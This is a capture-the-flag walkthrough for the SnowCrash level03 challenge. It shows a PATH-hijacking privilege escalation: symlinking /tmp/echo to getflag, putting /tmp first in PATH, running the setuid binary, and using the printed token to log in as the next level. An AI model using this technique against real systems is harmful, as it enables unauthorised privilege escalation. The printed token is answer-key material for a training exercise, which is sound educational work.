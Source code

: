 
objdump -d level03 -M intel > main.asm

## Step 1: Create a Symbolic Link

Use the ln command to create a symbolic link named echo in the /tmp directory that points to /bin/getflag. This effectively tricks the level03 binary into calling getflag when it looks for the echo command.

``` console
level03@SnowCrash:/tmp$ ln -sf /bin/getflag /tmp/echo
```

ln: The command to create links.
-s: This flag tells ln to create a symbolic link.
-f: This flag forces the link to be created, overwriting any existing file or link.
/bin/getflag: The target command you want to run (the actual command).
/tmp/echo: The name of the symbolic link you're creating.

## Step 2: Modify the PATH Environment Variable

Adjust the PATH: You need to modify the PATH environment variable to prioritize the /tmp directory over the system directories. This ensures that when level03 tries to call echo, it finds your symbolic link first.

``` console
level03@SnowCrash:/tmp$ export PATH=/tmp:$PATH
```

PATH=/tmp:$PATH: This sets the PATH variable to include /tmp before the rest of the directories in the existing PATH.

## Step 3: Execute the Vulnerable Binary
Run the level03 Binary: Now that the symbolic link is set up and the PATH is adjusted, you can run the level03 binary.

``` console
level03@SnowCrash:/tmp$ ~/level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

## Step 4: Use token to enter level04
``` console
level03@SnowCrash:~$ su level04
Password: qi0maab88jeaj46qoumi7maus
```

